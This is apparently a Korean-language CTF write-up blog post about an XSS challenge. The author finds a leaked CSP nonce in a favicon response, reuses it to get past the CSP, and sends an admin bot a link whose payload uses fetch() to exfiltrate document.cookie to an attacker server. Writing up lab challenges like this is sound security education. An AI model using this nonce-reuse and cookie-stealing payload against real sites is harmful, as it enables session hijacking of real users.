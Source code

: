 ```yaml
---
layout: post
title: "Falling Slowly... Again"
image: GR1.png
date: 2025-09-17 14:55:00 +0900
tags: [web, hacking, google]
categories: web
---
```


Google Beginner's Request

Falling Slowly... Again

***

**Google Beginner's Request - Falling Slowly... Again**

![]({{site.baseurl}}/images/GoogleRequest/FSA/1.png)


`This site boasts a defense against XSS, but its security is like a falling leaf – slow and predictable. It relies on a mechanism that, while sound in theory, has a fatal flaw in its execution. Can you exploit this weakness to inject your own malicious code and take control?`

이 사이트는 XSS 방어 기능을 자랑하지만, 보안은 마치 떨어지는 나뭇잎처럼 느리고 예측 가능합니다. 이론적으로는 안전하지만 실행에 치명적인 결함이 있는 메커니즘을 사용합니다. 이 취약점을 악용하여 악성 코드를 삽입하고 시스템을 장악할 수 있을까요?


![]({{site.baseurl}}/images/GoogleRequest/FSA/2.png)

들어가면 name과 admin에게 전송할 링크를 입력받는다.

name의 경우, Digital_Phantom란에 입력한 값이 적히는 방식이다.

admin에 전송할 링크 전송 시 admin이 그 링크로 이동하는 시스템이다.

따라서

1. name에 XSS를 삽입한다.
2. admin에게 링크를 전송한다.
3. 링크를 클릭한 admin의 document.cookie를 탈취한다.

이렇게 전개하면 될 거 같다.

![]({{site.baseurl}}/images/GoogleRequest/FSA/3.png)

우선적으로 간단한 스크립트문을 삽입하여준다.

![]({{site.baseurl}}/images/GoogleRequest/FSA/4.png)

삽입 후 확인 시 CSP 정책에 의해 막히는 걸 볼 수 있다.

CSP의 경우는 보통 요청 값이나 응답 값에 노출되는 경우가 있다.

![]({{site.baseurl}}/images/GoogleRequest/FSA/5.png)

/favicon.ico의 패킷 확인 시 응답 값에서 CSP를 확인할 수 있으며

하단의 Style의 경우, nonce="b04ppxGUAjltHc4UXpjG6ggg"를 사용하여 CSP 정책을 통과하는 것을 볼 수 있다.


따라서 스크립트 문에 nonce="b04ppxGUAjltHc4UXpjG6ggg"를 삽입하여

작성 시 CSP 정책을 우회할 수 있을 것이다.

![]({{site.baseurl}}/images/GoogleRequest/FSA/6.png)

아까와 같이 스크립트를 삽입한다.
삽입한 구문은 
{% highlight js %}
<script nonce="b04ppxGUAjltHc4UXpjG6ggg">[alert(1)]</script>
{% endhighlight %}
으로 CSP 정책을 우회하게끔 작성하였다.

![]({{site.baseurl}}/images/GoogleRequest/FSA/7.png)

작성된 구문으로 요청 값을 보낼 시 예상과 같이 스크립트 문이 실행된다.
이를 통해 CSP를 우회한 스크립트문을 삽입할 수 있다.

![]({{site.baseurl}}/images/GoogleRequest/FSA/8.png)

악성 스크립트문을 작성하여 name값에 요청을 보낼 경우,


{% highlight js %}
<script nonce="bO4ppxGUAjltHc4UXpjG6ggg">fetch('[주소]?flag='+document.cookie)</script>
{% endhighlight %}

그대로 전송되어 공격자의 서버로 이동된다.

이를 통해 ADMIN에게 URL을 보낼 경우 ADMIN의 cookie값을 알아낼 수 있다.

![]({{site.baseurl}}/images/GoogleRequest/FSA/9.png)

FLAG 획득 완료

**시행착오**

두 달간 못풀었던 문제이다.

CSP 우회하는 방법은 알아냈는데, 

ADMIN에게 보내는 방법을 몰라 헤맸다.

화나는 점은 그냥 name에 스크립트문 삽입한 걸 admin에 전송하면 되는건데

그걸 헤매서 삽집하다 두 달이나 걸렸다.

99% 풀어놓고 하이고 하이고오!!!!!!
